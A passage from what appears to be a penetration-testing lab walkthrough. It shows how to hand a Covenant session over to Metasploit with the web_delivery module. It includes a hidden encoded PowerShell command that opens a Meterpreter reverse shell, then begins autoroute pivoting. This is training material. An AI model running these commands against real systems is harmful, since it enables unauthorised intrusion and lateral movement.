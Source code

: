 ### 10.1 Session passing to Metasploit

- For passing the session, Open `Metasploit` and use `exploit/multi/script/web_delivery`, Set `LHOST` and `LPORT`.
- Make sure to set the target to `PSH`.
- when we enter cmd `exploit -j` we will get a PowerShell script.
  
```terminal
msf6 > use exploit/multi/script/web_delivery 
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set target 2
target => 2
msf6 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_http
payload => windows/x64/meterpreter/reverse_http
msf6 exploit(multi/script/web_delivery) > set lhost wlan0 
lhost => wlan0
msf6 exploit(multi/script/web_delivery) > set lport 8081
lport => 8081
msf6 exploit(multi/script/web_delivery) > exploit -j
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBj

------------------------------snip-------------------------------------
```
- Copy the Powershell payload and paste it to Covenant.

```shell
(singhx) > powershell powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAa
```
- On navigating to Metasploit we successfully got a reverse shell to meterpreter.

```meterpreter
meterpreter > getuid
Server username: mayorsec\s.chisholm
```
### 10.2 Autoroute

- In Metasploit, we will run cmd `ipconfig` to check the available connections.

```shell
meterpreter > ipconfig

------------__SNIP__----------------

Interface 16
============
Name         : Intel(R) PRO/1000 MT Desktop Adapter #2
Hardware MAC : 08:00:27:67:94:3a
MTU          : 1500
IPv4 Address : 192.168.16.9
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::33a1:10cf:cc2e:6048
IPv6 Netmask : ffff:ffff:ffff:ffff::
```
- Now, run `autoroute` cmd against the IP by using the command:
